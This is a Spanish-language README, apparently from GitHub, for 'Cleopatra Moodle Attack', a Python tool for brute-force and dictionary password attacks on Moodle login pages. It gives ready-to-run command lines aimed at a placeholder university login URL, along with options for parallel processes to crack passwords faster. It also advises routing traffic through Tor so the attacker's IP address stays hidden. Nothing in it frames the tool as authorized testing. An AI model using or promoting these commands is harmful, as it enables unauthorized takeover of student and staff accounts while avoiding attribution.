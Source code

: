 # Cleopatra Moodle Attack

![enter image description here](https://i.imgur.com/MlDQz9I.png)
<br>

<p align="left">
<img src="https://img.shields.io/badge/Creado%20por-RamPanic-green">
<img src="https://img.shields.io/badge/Hecho en%20-Python3-red">
    <a href="https://github.com/RamPanic?tab=repositories"><img src="https://img.shields.io/badge/Ver%20m%C3%A1s-repositorios-yellow"></a>
</p>

Cleopatra Moodle Attack (CMA) es una herramienta que le permite lanzar ataques de fuerza bruta o de diccionario en los login de sitios web basados en la plataforma Moodle.

## Instalar requerimientos

```bash
pip3 install -r requirements.txt
```

## Instalar servicio Tor y lanzar ataque

No sería discreto utilizar nuestra dirección de IP para realizar el ataque, por ende hay que cambiarla, para esto utilizaremos el servicio Tor.

### Sistemas Linux

#### Debian

```bash
sudo apt install -y tor
```
#### Arch

```bash
sudo pacman -S tor
```

### Lanzar con bandera

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --tor-proxy
```

## Ataque en paralelo

Con CMA podremos utilizar la potencia de la CPU para obtener la contraseña más rápido.

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --processes 4
```

*Advertencia*: utilice esta bandera bajo su propio riesgo, su sistema podría colapsar por un mal uso.

## Ejemplo de ataque por diccionario

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst
```

## Muestras

![enter image description here](https://i.imgur.com/VvblK9f.png)

## Mensajes finales

Sigue en desarrollo de pequeñas cosas :P

